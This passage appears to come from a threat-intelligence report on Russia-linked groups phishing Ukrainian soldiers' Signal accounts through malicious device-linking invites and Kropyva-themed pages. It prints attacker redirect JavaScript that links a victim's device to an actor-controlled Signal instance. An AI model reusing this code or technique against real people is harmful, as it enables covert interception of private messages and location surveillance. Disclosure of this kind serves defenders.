 Figure 2: Typical legitimate group invite code for redirection to a Signal group

```
function doRedirect() {
var redirect = 'sgnl://linkdevice
uuid=h_8WKmzwam_jtUeoD_NQyg%3D%3D
pub_key=Ba0212mHrGIy4t%2FzCCkKkRKwiS0osyeLF4j1v8DKn%2Fg%2B'
//redirect=encodeURIComponent(redirect)
document.getElementById('go-to-group').href = redirect
window.location = redirect
window.onload = doRedirect
```

Figure 3: Example of UNC5792 modified redirect code used to link the victim's device to an actor-controlled Signal instance

UNC4221: Custom-Developed Signal Phishing Kit
---------------------------------------------

UNC4221 (tracked by CERT-UA as [UAC-0185](https://cert.gov.ua/article/6281632)) is an additional Russia-linked threat actor who has actively targeted Signal accounts used by Ukrainian military personnel. The group operates a tailored Signal phishing kit designed to mimic components of the [Kropyva](https://united24media.com/war-in-ukraine/ukraines-secret-weapon-kropyva-software-4026#:~:text=Kropyva's%20impact&text=Amongst%20the%20Ukrainian%20Armed%20Forces,applications%20across%20Ukraine's%20armed%20forces.) application used by the Armed Forces of Ukraine for artillery guidance. Similar to the social engineering approach used by UNC5792, UNC4221 has also attempted to mask its device-linking functionality as an invite to a Signal group from a trusted contact. Different variations of this phishing kit have been observed, including:

-   Phishing websites that redirect victims to secondary phishing infrastructure masquerading as legitimate device-linking instructions provisioned by Signal (Figure 4)
    
-   Phishing websites with the malicious device-linking QR code directly embedded into the primary Kropyva-themed phishing kit (Figure 5)
    
-   In earlier operations in 2022, UNC4221 phishing pages were crafted to appear as a legitimate security alert from Signal (Figure 6)
    

![Malicious device-linking QR code hosted on UNC4221-controlled domain "signal-confirm[.]site"](https://storage.googleapis.com/gweb-cloudblog-publish/images/fig4-signal.max-1000x1000.png)

Figure 4: Malicious device-linking QR code hosted on UNC4221-controlled domain "signal-confirm\[.\]site"

![UNC4221 phishing page mimicking the networking component of Kropyva hosted at "teneta.add-group[.]site". The page invites the user to "Sign in to Signal" (Ukrainian: "Авторизуватись у Signal"), which in turn displays a QR code linked to an UNC42](https://storage.googleapis.com/gweb-cloudblog-publish/images/fig5-signal.max-1000x1000.png)

Figure 5: UNC4221 phishing page mimicking the networking component of Kropyva hosted at "teneta.add-group\[.\]site". The page invites the user to "Sign in to Signal" (Ukrainian: "Авторизуватись у Signal"), which in turn displays a QR code linked to an UNC4221-controlled Signal instance.

![Phishing page crafted to appear as a Signal security alert hosted on UNC4221-controlled domain signal-protect[.]host](https://storage.googleapis.com/gweb-cloudblog-publish/images/fig6-signal.max-1000x1000.png)

Figure 6: Phishing page crafted to appear as a Signal security alert hosted on UNC4221-controlled domain signal-protect\[.\]host

Notably, as a core component of its Signal targeting, UNC4221 has also used a lightweight JavaScript payload tracked as PINPOINT to collect basic user information and geolocation data using the browser's GeoLocation API. In general, we expect to see secure messages and location data to frequently feature as joint targets in future operations of this nature, particularly in the context of targeted surveillance operations or support to conventional military operations.
